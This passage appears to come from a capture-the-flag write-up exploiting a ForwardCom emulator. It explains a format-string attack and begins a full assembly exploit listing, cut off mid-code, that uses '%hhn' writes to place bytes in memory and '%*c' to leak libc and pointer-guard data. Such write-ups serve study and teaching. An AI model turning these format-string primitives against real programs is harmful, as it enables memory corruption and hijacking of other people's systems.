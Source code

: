 Now we need write it into memory. To do that, we implemented a `_write` function which uses `_printf` with `"%hhn"` to write the source bytes at the destintation address, byte for byte.

The last is to return from the main function of our program so that the emulator exits and the exit functions are executed. Watch out to return `0` in `r0` or else the output is not printed ont the website. Alternatively, one could use `_exit` (a ForwardCom syscall, not to confuse with libcs symbol `_exit`) which effectively does the same thing.

## Full exploit code

To assembler the code in to a ForwardCom, use the following commands:

1. `./forw -ass exploit.S` to assemble to a object file
2. `./forw -link exploit.ex exploit.ob libc.li` to link to a executable

The `libc.li` supplies small wrappers around the ForwardCom system call. You can either use the version provided in this repository, download it from the [library source repository](https://github.com/ForwardCom/libraries) or build it from source.

```asm
extern _printf: function

const section read ip // read-only data section
fmt_leak_str: int8 "%*c", 0
print_hex: int8 "||%#lx||\n ", 0
write_1_byte: int8 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn",0
clear_byte: int8 "%hhn",0
newline: int8 "\n ",0
const end

bss section datap uninitialized // read-write data section
int64 parlist[5]
int8 libc_addr[8]
int8 tmp_mem[0x18]
int8 pointer_guard[9]
bss end

code section execute // executable code section

_leak function public
// r0: src (pointer to start of the leak)
// r1: dst (where to write the leaked bytes)
// r2: length of the leak (excluding the leading byte which will not be leaked)

// assumes that *(int8_t *)(src + length) >= 0
// for simplicity: length % 3 == 0, length >= 3

// interal register assignment
// r16: remaining length
// r17: current pointer to leak
// r18: current dst pointer
// r19: is negative mask

int64 r16 = r2
int64 r17 = r0 + r2 - 3
int64 r18 = r1 + r2 - 3
int64 r19 = 0

do {
    // leak bytes
    int64 r0 = address([fmt_leak_str])
    int64 r1 = r17
    call _printf
```